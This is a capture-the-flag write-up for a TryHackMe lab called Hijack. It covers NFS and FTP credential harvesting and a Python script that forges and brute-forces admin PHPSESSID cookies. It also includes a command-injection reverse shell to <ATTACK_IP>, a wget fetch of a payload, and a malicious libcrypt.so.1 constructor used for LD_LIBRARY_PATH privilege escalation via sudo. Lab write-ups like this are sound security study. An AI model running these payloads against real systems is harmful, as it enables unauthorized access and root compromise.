

# 📝 Writeup – Hijack (TryHackMe)

---

## TL;DR
Found PHPSESSID format and brute-forced admin session IDs → gained admin access to a command-injection endpoint → reverse shell as `www-data` → found creds/config → switched to `rick` → abused `LD_LIBRARY_PATH` env kept in `sudo` to load a malicious `libcrypt.so.1` and pop root. Classic mix of session hijack, NFS/FTP recon, and LD_LIBRARY_PATH abuse.

---

## ENUMERATION
Start with the usual quick scan:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports found: `21,22,80,111,2049,40848,46747,55932`. Focused scan:

```bash
nmap -p21,22,80,111,2049,40848,46747,55932 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


---

## PORT 80 — session weirdness

I signed up as user & password=passwd and inspected the browser cookies. There was a `PHPSESSID` that looked like a URL-encoded base64 string.

Steps I took:

1. `decodeURIcomponent(<cookie>)` → base64 string
2. `base64 -d` → yields `user:<md5_hash>` style strings.
3. Crack the MD5  — gives passwd

```
user:<md5_hash_of_password>  -> base64 -> url-encode -> PHPSESSID
```

Screenshots:




---

## PORT 2049 — NFS share

NFS export discovered (shared file -> /mnt/share). Quick steps to mount and inspect:

```bash
showmount -e <IP>
mkdir /tmp/mount
sudo mount -t nfs <IP>:/mnt/share /tmp/mount
```

Note: files may be owned by UIDs that don't exist on your machine. If files are owned by `uid 1003` you can create a local user with that UID to interact with them:

```bash
sudo adduser --uid 1003 someuser
sudo su someuser
ls /tmp/mount
```

From the exported share I found FTP credentials. Unmount when done:

```bash
sudo umount /tmp/mount
```

Screenshot:      


---

## PORT 21 — FTP

Login with the credentials from the NFS share:

```bash
ftp <IP>
# login using pulled creds
get <file>
```

One of the files contained possible admin passwords — so now we have two routes:

1. Brute-force the web login (painful due to rate limits), or
2. Generate PHPSESSID values for admin by hashing candidate passwords and trying them (faster, because no rate limit).

Screenshot:


---

## SESSION HIJACK (automated)

`session.py` logic: 
for each password candidate:

* `md5 = md5(password)`
* `session_plain = "admin:" + md5`
* `b64 = base64.b64encode(session_plain)`
* `session_id = urlencode(b64)`
* Set cookie `PHPSESSID = session_id`
* GET `administration.php` → if page not denying access, password found

That yields admin access without bruteforcing the login form (avoids rate limit).
```session.py
#!/usr/bin/env python3
#usage: python3 session.py

import hashlib
import requests
import base64
from urllib.parse import quote
from bs4 import BeautifulSoup

URL="http://10.10.181.113/administration.php"
PASSLIST="/home/kali/Forensics/pass_list.txt"
FAIL_MARKER = "Access denied, only the admin can access this page"
count=0

print(f"[+] Starting session hijack against {URL}")

with open(PASSLIST, "r") as f:
    passwords=[x.strip() for x in f.readlines()]

s=requests.Session()

try:   
    for password in passwords:
        count+=1
        md5_hash=hashlib.md5(password.encode('utf-8')).hexdigest()       # md5 hash
        text="admin:" + md5_hash                                         # session decode value
        b64=base64.b64encode(text.encode('utf-8')).decode('ascii')       # base64 encode 
        session_id=quote(b64)                                            # url encode
    
        s.cookies.set("PHPSESSID", session_id)                           # sets cookie header
        
        print(f"[{count}] Trying PHPSESSID={session_id}")
        r=s.get(URL)
        html=r.text
        if(FAIL_MARKER.lower() not in html.lower()):
            print(f"Password: {password}")
            break
except KeyboardInterrupt:
        print("\n[!] Interrupted by user.")
```

---

## ADMIN → command injection → reverse shell

Logged in as admin and found a "service checker" POST form that runs a check — vulnerable to command injection when we append `&& <cmd>`.(I tried a few CI payloads before getting a one that works)

Reverse shell example executed via the command injection:

```bash
# start listener on attacker
nc -nvlp 4444

# on admin page (in injection field)
&& bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1"
```

Got a shell as the web user.      
Screenshot:      


---

## www-data → rick

Found `config.php` with credentials for `rick`. Get a proper TTY, and `su`:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
su rick
```

Screenshot:


---

## rick → root (LD_LIBRARY_PATH abuse)

`sudo -l` showed `rick` can run certain commands. Important detail: `env_keep += LD_LIBRARY_PATH` was present — this means `sudo` preserves `LD_LIBRARY_PATH` when running privileged binaries. That’s exploitable: if a root-run program loads `libcrypt.so.1` (or any library) and we control `LD_LIBRARY_PATH`(env), we can place a malicious `libcrypt.so.1` in a folder we control and have the binary load it, executing our code as root.

Checklist I used:

1. Find external libraries that are loaded by program (you check libraries via `ldd /usr/sbin/apache2`).
2. Create a malicious shared object named as the target library (e.g. `libcrypt.so.1`) with a constructor that spawns a root shell.
3. Transfer the `.so` to `/tmp` and set `LD_LIBRARY_PATH=/tmp` when running the root binary with `sudo`.

### exploit C 

Save this as `exploit.c`:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void inject()__attribute__((constructor));   /* makes sure code runs immediately after getting loaded */

void inject() {
    /* escalate and spawn shell */
    setgid(0);
    setuid(0);
    unsetenv("LD_LIBRARY_PATH"); /* cleanup if desired */
    system("/bin/bash -p");
}
```

Compile it to a shared object named `libcrypt.so.1`:

```bash
gcc -fPIC -shared -o libcrypt.so.1 exploit.c
```

(`-fPIC` + `-shared` make it a proper .so.)

### Move to target and trigger

Copy `libcrypt.so.1` to `/tmp` on the target (use `scp` / `nc` / python server).

Then run the target binary under sudo with `LD_LIBRARY_PATH` pointing to `/tmp`.

```bash
# on target (as rick) 
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

If the chosen binary loads `libcrypt.so.1`, your constructor will run as root and spawn a shell. You should get a root shell. Screenshot:


---

## Final flags

Grab `/root/root.txt` and done.

---

## Commands recap (quick)

```bash
# showmount + mount
showmount -e <IP>
mkdir /tmp/mount
sudo mount -t nfs <IP>:/mnt/share /tmp/mount

# create local user with same UID
sudo adduser --uid 1003 someuser

# ftp
ftp <IP>
get <file>

# command injection -> reverse shell
nc -nvlp 4444
# injection:
&& bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1"

# compile exploit on attacker
gcc -fPIC -shared -o libcrypt.so.1 exploit.c

# copy lib to target (example)
python3 -m http.server 80
wget http://<ATTACK_IP>/libcrypt.so.1

```

---

## Final words

Nice chain — session-format cracked + NFS for creds + clever env abuse. 

---
